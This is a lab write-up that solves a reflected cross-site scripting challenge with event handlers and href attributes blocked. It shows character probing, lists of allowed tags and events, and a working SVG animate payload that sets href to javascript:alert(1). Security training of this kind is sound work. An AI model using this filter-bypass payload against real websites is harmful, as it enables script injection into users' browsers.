 # Reflected XSS with event handlers and href attributes blocked

> Lab Objective: perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

- Firstly, Enter simple input like this `test'"><` in search functionality, then search for the input in the Source Code.
  ![1st Screenshot](./Photos/1.png)

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- Therefore, try to inject `<script>alert(0)</script>`, but that tag is not allowed.
  ![2nd Screenshot](./Photos/2.png)
  ![3rd Screenshot](./Photos/3.png)

- Use Burp Suite Intruder (or run a python script) to figure out what tags are allowed.

- After running a python script, these are the allowed tags: ['a', 'animate', 'image', 'svg', 'title']

- Try injecting this payload `<a src=x onerror=alert(0)>`, but the `onerror` event is not allowed.
  ![4th Screenshot](./Photos/4.png)

- Use Burp Suite Intruder (or run a python script) to figure out what JS event handlers are allowed.

- After running a python script, these are the allowed events:
  ['onafterprint', 'onafterscriptexecute', 'onanimationcancel', 'onanimationend', 'onanimationiteration', 'onanimationstart', 'onauxclick', 'onbeforecopy', 'onbeforecut', 'onbeforeinput', 'onbeforeprint', 'onbeforescriptexecute', 'onbeforetoggle', 'onbeforeunload', 'onbegin', 'onblur', 'oncancel', 'oncanplay', 'oncanplaythrough', 'onchange', 'onclick', 'onclose', 'oncontentvisibilityautostatechange', 'oncontentvisibilityautostatechange(hidden)', 'oncontextmenu', 'oncopy', 'oncuechange', 'oncut', 'ondblclick', 'ondrag', 'ondragend', 'ondragenter', 'ondragexit', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'ondurationchange', 'onend', 'onended', 'onerror', 'onfocus', 'onfocus(autofocus)', 'onfocusin', 'onfocusout', 'onformdata', 'onfullscreenchange', 'onhashchange', 'oninput', 'oninvalid', 'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onloadeddata',
  'onloadedmetadata', 'onloadstart', 'onmessage', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onmozfullscreenchange', 'onpagehide', 'onpageshow', 'onpaste', 'onpause', 'onplay', 'onplaying', 'onpointercancel', 'onpointerdown', 'onpointerenter', 'onpointerleave', 'onpointermove', 'onpointerout', 'onpointerover', 'onpointerrawupdate', 'onpointerup', 'onpopstate', 'onprogress', 'onratechange', 'onrepeat', 'onreset', 'onresize', 'onscroll', 'onscrollend', 'onscrollsnapchange', 'onsearch', 'onseeked', 'onseeking', 'onselect', 'onselectionchange', 'onselectstart', 'onshow', 'onsubmit', 'onsuspend', 'ontimeupdate', 'ontoggle', 'ontoggle(popover)', 'ontouchend', 'ontouchmove', 'ontouchstart', 'ontransitioncancel', 'ontransitionend', 'ontransitionrun', 'ontransitionstart', 'onunhandledrejection', 'onunload', 'onvolumechange', 'onwaiting', 'onwaiting(loop)', 'onwebkitanimationend', 'onwebkitanimationiteration', 'onwebkitanimationstart', 'onwebkitfullscreenchange',
  'onwebkitmouseforcechanged', 'onwebkitmouseforcedown', 'onwebkitmouseforceup', 'onwebkitmouseforcewillbegin', 'onwebkitplaybacktargetavailabilitychanged', 'onwebkitpresentationmodechanged', 'onwebkittransitionend', 'onwebkitwillrevealbottom', 'onwheel']

- Since it blocks `href` as an attribute not the word itself.

- Therefore, the payload will look like this, `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`

- `alert` function is executed and the lab is solved.
  ![5th Screenshot](./Photos/5.png)

---

# Explanation

- The Payload:

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```

- Payload Explanation:
  - This SVG code creates a clickable text element ("Click me") at coordinates (20,20).
  - The `<a>` tag defines a hyperlink.
  - `<animate>` tag attempts to dynamically set the `href` attribute to `javascript:alert(1)`.

---
